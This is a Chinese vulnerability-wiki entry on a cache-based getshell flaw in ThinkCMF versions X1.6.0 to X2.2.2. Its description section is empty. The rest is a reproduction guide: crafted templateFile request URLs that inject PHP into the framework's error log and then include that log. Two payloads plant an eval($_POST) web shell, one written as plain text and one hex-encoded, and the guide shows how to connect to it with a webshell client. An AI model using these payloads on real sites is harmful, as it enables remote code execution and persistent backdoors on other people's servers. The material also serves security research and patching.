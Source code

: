 ThinkCMF 缓存Getshell
=====================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0ThinkCMF X2.1.0ThinkCMF X2.2.0ThinkCMF X2.2.1ThinkCMF X2.2.2

三、复现过程
------------

### 常规操作

    http://www.0-sec.org/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die();

![](/Users/aresx/Documents/VulWiki/.resource/ThinkCMF缓存Getshell/media/rId25.png)

利用缓存文件getshell
--------------------

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY\_MM\_DD.log，如当前日期为2019年12月12日，日志文件为19\_12\_12.log，完整路径为

    data/runtime/Logs/Portal/19_12_12.log

**payload 一**

-   首先访问

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E

-   然后请求

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log

-   即可在http://www.0-sec.org/根目录生成m.php，密码是X

**payload 二**

-   首先访问

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E

-   然后菜刀链接（密码也是x）

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
